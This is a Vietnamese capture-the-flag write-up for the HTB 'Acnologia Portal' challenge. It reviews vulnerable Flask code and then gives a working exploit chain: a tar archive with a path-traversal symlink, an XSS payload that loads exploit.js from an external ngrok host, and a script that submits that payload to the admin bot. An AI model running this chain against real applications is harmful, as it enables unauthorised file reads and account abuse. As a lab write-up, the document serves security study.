# HTB Cyber Apocalypse 2022 - Acnologia Portal

**Description**: Chall cho source code, một bài upload file via XSS.

*Note*: Flag nằm ở `/flag.txt`

## Review Source Code

file `blueprints/routes.py`:
```python
import json
# ........

@api.route('/login', methods=['POST'])
def user_login():
# ..........

@api.route('/register', methods=['POST'])
def user_registration():
# ........

# .....

@api.route('/firmware/report', methods=['POST'])
@login_required
def report_issue():
    if not request.is_json:
        return response('Missing required parameters!'), 401

    data = request.get_json()
    module_id = data.get('module_id', '')
    issue = data.get('issue', '')

    if not module_id or not issue:
        return response('Missing required parameters!'), 401

    new_report = Report(module_id=module_id, issue=issue, reported_by=current_user.username)
    db.session.add(new_report)
    db.session.commit()

    visit_report()
    migrate_db()

    return response('Issue reported successfully!')

@api.route('/firmware/upload', methods=['POST'])
@login_required
@is_admin
def firmware_update():
    if 'file' not in request.files:
        return response('Missing required parameters!'), 401

    extraction = extract_firmware(request.files['file'])
    if extraction:
        return response('Firmware update initialized successfully.')

    return response('Something went wrong, please try again!'), 403

@web.route('/review', methods=['GET'])
@login_required
@is_admin
def review_report():
    Reports = Report.query.all()
    return render_template('review.html', reports=Reports)

```

file `util.py`:
```python
def extract_firmware(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        rand_dir = generate(15)
        extractdir = f"{current_app.config['UPLOAD_FOLDER']}/{rand_dir}"
        os.makedirs(extractdir, exist_ok=True)
        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                try:
                    filename = f'{extractdir}/{name}'
                    os.rename(os.path.join(tmp, name), filename)
                    continue
                except:
                    pass
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)
        tar.close()
        return True

    return False
```

Để review source-code, về cơ bản:

1. Website có tính năng report firmware cùng với description gửi cho admin(con bot) và chỗ này dính XSS.
2. Có tính năng update firmware hay upload file nhưng chỉ admin mới có thể dùng tính năng này.
3. Nếu file được upload là 1 file tar nó sẽ được tự động extract ra thư mục chứa file.
4. File name không hề được validate và dính lỗi path traversal.


**Ý tưởng**: Bởi vì chỉ admin mới có thể upload file, ta CSRF tạo code javascript có chức năng tự request đến endpoint và upload 1 file tar, cái mà sẽ được tự động extract. File tar chứa file 1 symlink với tên path traversal `../../app/application/static/css/main.css` trỏ đến `../../../../flag.txt`. 

Từ đó, ta có thể truy cập đến `/static/css/main.css`(endpoint được public nay là 1 symlink) để đọc flag.

## Exploit 

**Step 1**: Đầu tiên ta tạo 1 file symlink có tên là `payload` trỏ đến `../../../../flag.txt`
```bash
ln -s payload ../../../../flag.txt
```
**Step 2**: file `createTar.py`: tạo 1 file tar và add file symlink và đổi tên thành `../../app/application/static/css/main.css`
```python
import tarfile

tar = tarfile.open("file.tar.gz","w:gz")

tar.add('payload', '../../app/application/static/css/main.css')
tar.list()
tar.close()
```

*Tham khảo*: 

https://docs.python.org/3/library/tarfile.html

https://linuxconfig.org/how-to-create-and-manipulate-tar-archives-using-python


Giờ đây ta được `file.tar.gz` gồm 1 symlink trỏ đến flag và tên path traversal overwrite `main.css`

**Step 3**: https://www.dubget.com/file-upload-via-xss.html

Một bài upload file thông qua XSS, ta tham khảo được javascrip function `base64toBlob()` nhận đầu vào là 1 file tar được encode dạng chuỗi base64 có thể decode lại dưới format binary.

```bash
cat file.tar.gz | base64 # Ta được chuỗi base64
```

**Step 4**: Với file dưới dạng chuỗi base64, và hàm `base64toBlob()` ta build tiếp payload XSS upload file tar này khi submit cho admin.

file `exploit.js`:
```js
// <script src="https://8185-222-252-57-113.ap.ngrok.io/exploit.js"></script>

var b64file = "H4sICLe0gmIC/2ZpbGUudGFyAO3TzUrEMBSG4ay9il5BfpvGLgZm6dJbCLUzBNuxTDPQyzdlQAVRF6Mj6PtwkhOSQLL5pJJqex+Xuz4+9EfxI/TZR11rV7+u132jrbGiWsQVnOYcj+V58T/Z22rMaew3pvE2OKfbVrrQOuObG4E/T0pVKk7TOobUxZyeDqpkIqdOdfOsxpgOsiwuzH8IYe0meP22v2Te1LbW3lnrndBlbryo7Plz72s3xL3MS/7O/D/GIX1276tzAAAAAAAAAAAAAAAA4Bc8A3dU6fEAKAAA";

function base64toBlob(base64Data, contentType) {
    contentType = contentType || '';
    var sliceSize = 1024;
    var byteCharacters = atob(base64Data);
    var bytesLength = byteCharacters.length;
    var slicesCount = Math.ceil(bytesLength / sliceSize);
    var byteArrays = new Array(slicesCount);

    for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
            bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
    }
    return new Blob(byteArrays, { type: contentType });
}

var content_type = 'application/x-gtar-compressed';
var blob = base64toBlob(b64file, content_type);

// var file = new File([atob(base64)], "flag.tar.gz", {
//   type: "text/plain",
// });


var data = new FormData();
data.append('file', blob, 'file.tar.gz');

// LUU Y: May option nhu cors, headers... vo van co the prevent upload file.
fetch("http://localhost:1337/api/firmware/upload", {
  "body": data,
  "method": "POST"
});
```

**Step 5**: Cuối cùng file `exploit.py`, file này đơn giản là login rồi report payload XSS là 1 tag script trỏ đến file `exploit.js` ta đang host.
```python
import requests

url = 'http://134.209.177.202:31877'
s = requests.Session()

register = s.post(url+'/api/register', json={'username': '1', 'password': '1'})
login = s.post(url+'/api/login', json={'username': '1', 'password': '1'})

payload = '<script src="https://8185-222-252-57-113.ap.ngrok.io/exploit.js"></script>'
report = s.post(url+'/api/firmware/report', json={'module_id': '1', 'issue': payload})

print(report.text)
```

Chui đến: `http://ip:port/static/css/main.css` ta được flag

![Acnologia_Portal_flag](https://user-images.githubusercontent.com/71699412/169696076-bffde5d0-7827-4a17-9633-61ccf0c1752e.jpg)

**flag**: `HTB{des3r1aliz3_4ll_th3_th1ngs}`

Attemp upload `__init__.py` để RCE luôn nhưng bất thành: https://ajinabraham.com/blog/exploiting-insecure-file-extraction-in-python-for-code-execution
